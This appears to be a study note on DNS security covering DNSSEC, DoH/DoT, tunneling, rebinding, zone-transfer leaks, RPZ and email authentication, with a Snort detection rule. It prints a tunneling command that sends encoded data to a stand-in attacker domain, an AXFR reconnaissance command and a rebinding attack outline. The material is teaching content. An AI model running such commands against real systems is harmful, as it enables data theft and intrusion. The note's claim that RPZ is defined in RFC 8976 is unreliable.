

# 🌍 DNS Security

> [!abstract] TL;DR
> DNS is the internet's phonebook — and its security was an afterthought. DNSSEC adds cryptographic signatures (RRSIG records) validated via a chain of trust: ZSK signs zone records, KSK signs the ZSK, DS record links parent zone to child, with the ICANN root as the trust anchor. DoH (DNS over HTTPS port 443) and DoT (DNS over TLS port 853) prevent eavesdropping. DNS-based attacks include tunneling (encoded C2 data in TXT/CNAME queries), DNS rebinding (bypass SOP via TTL manipulation), and cache poisoning (Kaminsky attack). Email authentication via SPF/DKIM/DMARC prevents domain spoofing. RPZ (Response Policy Zones) enables DNS-based malware blocking.

---

## Intuition — Analogy First

DNS without security is like a phone book operated by volunteers on the honour system: anyone who can intercept your query can give you a fake answer. You look up "bank.com" and get an attacker's IP — this is DNS cache poisoning. The attacker doesn't need to break TLS if they can redirect you before the TLS handshake begins.

DNSSEC adds a notary system: every DNS answer is signed by the zone owner's private key (ZSK), and the public key is itself signed by the parent zone (creating a chain up to the ICANN root). Now you can verify that the answer for "bank.com" was genuinely signed by bank.com's zone administrator — not forged in transit.

The email authentication triad (SPF/DKIM/DMARC) applies the same principle to email: SPF says "only these IPs can send mail for my domain," DKIM cryptographically signs email headers, and DMARC specifies what to do when either check fails (reject, quarantine, or monitor).

---

## How It Works



---

## Key Concepts / Details

### DNSSEC Chain of Trust

DNSSEC uses two key types in each zone:

| Key | Purpose | Signs |
|-----|---------|-------|
| **ZSK** (Zone Signing Key) | Signs zone records | A, AAAA, MX, NS records → RRSIG |
| **KSK** (Key Signing Key) | Signs the ZSK | DNSKEY record → RRSIG |
| **DS** (Delegation Signer) | Hash of child KSK | Published in parent zone |
| **RRSIG** | Cryptographic signature | Validates resource record sets |

Chain: Root DNSKEY (KSK) → .com DS → .com DNSKEY (KSK) → bank.com DS → bank.com DNSKEY (ZSK) → A record RRSIG.

**DNSSEC does NOT encrypt**: it only authenticates. Queries are still visible in cleartext; use DoH/DoT for privacy.

```bash
# Validate DNSSEC chain for a domain
dig +dnssec +multiline bank.com A
dig +dnssec DS bank.com @8.8.8.8
# Check with delv (DNSSEC-validating lookup)
delv @8.8.8.8 bank.com A +rtrace
```

### DoH and DoT — DNS Privacy

| Protocol | Port | Transport | Privacy | Censorship Resistance |
|----------|------|-----------|---------|----------------------|
| Classic DNS | 53 | UDP/TCP cleartext | None | Low |
| DoT | 853 | TLS | High | Medium (port 853 blockable) |
| DoH | 443 | HTTPS | High | High (mixed with HTTPS traffic) |
| DoQ | 853 | QUIC | High | Medium |

DoH controversy: enterprise DNS filtering (RPZ, content filtering) relies on seeing DNS queries. DoH to public resolvers (Cloudflare 1.1.1.1, Google 8.8.8.8) bypasses corporate DNS controls. Solution: enforce DoH to internal corporate DoH resolver only.

### DNS Tunneling — C2 Data Exfiltration

DNS tunneling encodes data in DNS query names and response TXT records:

```bash
# Example encoded command (attacker's C2 using iodine/dnscat2)
# Attacker controls ns1.attacker.com
dig TXT aGVsbG8gd29ybGQ.attacker.com   # base64 encoded data in subdomain
# Response TXT: "dmFsaWQgY29tbWFuZA==" (base64 encoded response)
```

Detection signatures:
- DNS queries with subdomain labels > 30 characters
- High query volume to single domain (> 100 queries/minute/host)
- TXT record queries (rare in legitimate traffic)
- Entropy analysis of subdomain labels (high entropy = encoded data)

Snort rule:
```
alert dns any any -> any 53 (
  msg:"DNS Tunnel Long Subdomain";
  dns.query; content:"."; pcre:"/[a-zA-Z0-9+\/=]{30,}/";
  sid:9002001; rev:1;
)
```

### DNS Rebinding Attack

Attack on browser Same-Origin Policy:

1. Attacker controls `evil.com` with 0-second TTL
2. Victim browser resolves `evil.com` → attacker's public IP (serves malicious JS)
3. Attacker changes DNS response for `evil.com` → 192.168.1.1 (victim's router IP)
4. After TTL expires, browser re-resolves `evil.com` → 192.168.1.1
5. Malicious JS now makes requests to `evil.com` which the browser sends to 192.168.1.1 (bypassing SOP)
6. Browser CORS headers now allow JS to access the router admin interface

Mitigations: DNS rebind protection (reject private IP responses from public DNS), browser DNS cache minimum TTL enforcement.

### Split-Horizon DNS — Security Risk

Split-horizon provides different DNS answers for internal vs. external queries:
- External: `vpn.company.com` → 203.0.113.1 (public IP)
- Internal: `vpn.company.com` → 10.0.0.1 (internal IP)

Security risk: if a split-horizon internal nameserver is reachable from external queries, internal topology is leaked. DNS zone transfer (AXFR) on an internal nameserver exposes all internal hostnames and IPs.

```bash
# Attempt zone transfer (AXFR) against internal DNS
dig @ns1.company.com company.internal AXFR
# If successful: reveals all internal hostnames — a major reconnaissance win
```

Fix: restrict AXFR to trusted slave nameserver IPs only.

### RPZ — Response Policy Zones

RPZ (Defined in RFC 8976) enables DNS-based threat blocking:

```bind
; Block malware domain (c2.badactor.com) via NXDOMAIN
c2.badactor.com  CNAME  rpz-nxdomain.  ; Return NXDOMAIN
*.c2.badactor.com CNAME rpz-nxdomain.

; Redirect phishing domain to sinkhole
phishing.evil.com CNAME sinkhole.company.com.
```

Intelligence feeds (Cisco Umbrella Investigate, SURBL, Spamhaus DBL) provide RPZ blacklists. This blocks C2 domains even if malware gets through endpoint controls.

### SPF / DKIM / DMARC — Email Authentication

**SPF** (Sender Policy Framework): DNS TXT record listing authorised sending IPs
```
v=spf1 ip4:203.0.113.0/24 include:sendgrid.net ~all
```
`~all` = softfail (mark as spam), `-all` = hardfail (reject).

**DKIM** (DomainKeys Identified Mail): RSA/Ed25519 signature in email header
```
DKIM-Signature: v=1; a=rsa-sha256; d=company.com; s=2024;
  h=from:to:subject:date;
  b=<base64-signature>
```
Selector `2024._domainkey.company.com` TXT record contains the public key.

**DMARC** (Domain-based Message Authentication): Policy for SPF/DKIM failures
```
v=DMARC1; p=reject; rua=mailto:dmarc@company.com; ruf=mailto:dmarc-forensic@company.com; pct=100
```
`p=reject` (discard non-compliant), `p=quarantine` (spam folder), `p=none` (monitor only).

DMARC alignment: SPF/DKIM must align with the `From:` domain. Prevents cousin domain attacks.

---

## Real-World Notes

- Kaminsky attack (2008): exploited DNS's 16-bit transaction ID to poison resolver caches; fixed with source port randomisation (65,000 port entropy)
- Russia's Ru-net DNS filtering in 2022 demonstrated nation-state DNS censorship; DoH adoption spiked among Russian users
- Microsoft 365 DMARC enforcement: O365 now rejects emails failing DMARC when sender's policy is `p=reject`
- BGP hijacking + DNS = devastating: in 2019, BGP hijacking of 1.1.1.1 (Cloudflare DoH) combined with DNS cache poisoning was demonstrated at DEFCON

---

## Common Pitfalls

1. **DNSSEC without monitoring** — DNSSEC key rollover failures cause SERVFAIL for your entire domain; automate key rotation and monitor
2. **SPF with `+all`** — `v=spf1 +all` allows any IP to send mail for your domain — useless SPF
3. **DMARC `p=none` forever** — Monitor mode is for initial rollout; staying at `p=none` means DMARC provides zero protection
4. **Public DoH bypassing corporate controls** — Corporate RPZ/DNS filtering is bypassed when employees use hardcoded DoH resolvers (1.1.1.1, 8.8.8.8)

---

## Related Concepts

- [[TLS_and_SSL|← TLS & SSL]] — DoH uses HTTPS; CT logs monitor certificate issuance
- [[Firewalls_and_IDS_IPS|← Firewalls & IDS/IPS]] — DNS-based IDS signatures, RPZ blocking
- [[Network_Forensics|→ Network Forensics]] — DNS log analysis for DGA/tunneling detection
- [[_MOC_Network_Security|↑ Network Security MOC]]

---

## Review Questions

1. A malware sample makes 200 DNS TXT queries per hour to `xn--<random>.c2.attacker.com`. Explain the attack mechanism, write a detection rule, and describe two mitigations.
2. Your organisation's DMARC policy is `p=none`. You receive a report showing 15% of emails with `From: @company.com` fail DKIM alignment. Trace the likely cause and the remediation path to `p=reject`.
3. An internal developer exposes your split-horizon internal nameserver's AXFR endpoint accidentally. What information does an attacker gain, and what does an attacker's next steps look like using that information?

---

## Sources

- DNSSEC Overview: https://www.icann.org/resources/pages/dnssec-what-is-it-why-important-2019-03-05-en
- dnscat2 DNS Tunneling: https://github.com/iagox86/dnscat2
- DMARC.org Guide: https://dmarc.org/overview/

#Cybersecurity #NetworkSecurity #DNS #DNSSEC #SPF #DKIM #DMARC
